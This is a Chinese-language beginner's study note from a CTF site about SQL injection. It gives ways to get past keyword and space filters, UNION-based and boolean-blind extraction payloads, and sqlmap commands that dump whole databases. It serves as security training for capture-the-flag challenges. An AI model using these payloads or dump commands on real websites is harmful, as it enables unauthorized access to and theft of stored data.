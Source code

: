 # ctf.mukeran.cn/notes/web/1/First Attempt - SQLi

前言
====
第一次开始研究CTF，并且也是第一次给CTF写WriteUp。我选择首先接触Web，因为我曾经有过Web的开发经验，懂一些Web的知识，有一定的基础。我写的这个严格来讲不是题目的WriteUp，而是一个知识的储存积累以及心理想法的文章。这篇是关于SQL注入的部分知识和4道入门题。

重点知识
====

MySQL相关
----
**information\_schema** - MySQL储存信息的Database  
**information\_schema.schemata** - 可以获取当前MySQL服务器的数据库列表  
**information\_schema.tables** - 所有MySQL表的信息，含有有用的schema\_name, table\_name两列  
**information\_schema.columns** - 所有MySQL列的信息，含有有用的schema\_name, table\_name, column\_name  
**select database()** - 显示当前数据库  

注入防护相关
----
有些网站进行了某些注入防护。  

1. **关键词过滤**
2. 类型限制
3. 字符转义
4. ...

本次主要是研究某些关键词过滤的网站如何注入  
事实上，如果一个网站的防护做的很到位的话，是不会被注入的，那么有些网站会做不到位的关键词过滤：  

1. 黑名单整体替换(删除) - 一次或多次：  
**如果是一次替换**，也就是遇到information\_schema将其删除的话，我们可以在关键词中再行插入关键词来绕过这个保护。比如：information\_information\_schemaschema。过滤部分如果只进行一次过滤的话，那么只有中间的那个information\_schema被过滤掉，剩下的拼在一起是我们说需要的关键词。(想各种方法即可)  
**如果是多次替换**，那么就没办法破了。  
2. 空格禁止(删除)：  
**如果是过滤空格的话**，我们有多种替代方案：用`/**/`, `+`, `%0a`代替空格 
3. ...

**小技巧**：  
MySQL语句中，我们可以使用`#`或者`-`来注释掉后面的代码，那么我们使用`'`来注入时，本来还要完成`'`的一个配对(语句后面往往还包含另一个`'`)，我们可以直接在语句后写`#`或者`-`(前提不被屏蔽或者后面没有重要语句)

注入测试相关
----
对于GET请求里面的Query，我们可以通过某些固定套路来测试是否支持注入。  
对于常见的id，id=1请求正常，id=1'报错，说明有可能可以注入  
我们尝试id=1' and '1'='1以及id=1' and '1'='2来看是否正常输出结果。如果前者能够出结果，而后者不能出结果，说明这个服务器支持注入，且能够使用and语句。如果不能正常执行，有可能网站会将mysql\_query报错的结果输出，我们可以看是不是因为关键词被屏蔽。

**对于能够返回结果的网站**，接下来的步骤就是：

1. `union select database()`(被屏蔽可以尝试`union select schema_name from information_schema.schemata`)(此步用于看当前的数据库，事实上也可以不用)
2. `union select table_name from information_schema.tables where table_schema='数据库名'`
3. `union select column_name from information_schema.columns where table_name='可能flag所在的表名'`
4. `union select 列名 from 表名 (where)` 获得flag


**对于不能返回结果的网站**：  
有些时候，有的网站不返回SQL查询结果，但是会反馈本次的SQL查询是否成功，是否是结果。根据这个性质(逻辑语句执行为false该值非法)，我们可以得到：

1. 判断table, column, row是否存在：  
   `and (select count(*) from ... > 0)`  
   使用该逻辑语句来判断是否存在某一条记录。有些时候我们需要用到
burp来进行字典爆破(未实践)。
2. 判断row值的长度：  
   `and (select length(列名) from ... > {length})`  
   `{length}`从1开始增加，直到某次报错，可知那次的`{length}`为条目长度。
3. 判断row值：  
   `and ascii(substr((select 列名 from 表名),{start},1))={ascii}`  
   `{start}`从1开始增加，表示substr的起点。substr长度为1，也就是获取当前测试`{start}`位的字符ascii码，`{ascii}`从可能的ASCII码范围枚举，当有返回值时，说明这个枚举的ASCII字符就是条目中的ASCII码。

目前我只做过很少的SQL注入题目，故目前没有其它经验

一个CTF上可能用不到的工具 - sqlmap.py
----
有些时候使用sqlmap.py的话，可以免去人工测试注入点。  
`sqlmap.py -u "{url}" --current-db` 获取当前db  
`sqlmap.py -u "{url}" -D {db_name} --tables` 获取`{db_name}`的所有表  
`sqlmap.py -u "{url}" -D {db_name} -T {table_name} --columns` 获取`{db_name}.{table_name}`所有列
`sqlmap.py -u "{url}" -D {db_name} -T {table_name} -C {column_name}` 获取改列所有值  
`sqlmap.py -u "{url}" -D {db_name} -T {table_name} --dump` 获取表的信息  
`sqlmap.py -u "{url}" --dump-all` 获取所有数据库信息

WriteUp
----

> Web\_WriteUp\_1.md  
> https://ctf.mukeran.com/writeups/web/1 (not avaliable yet)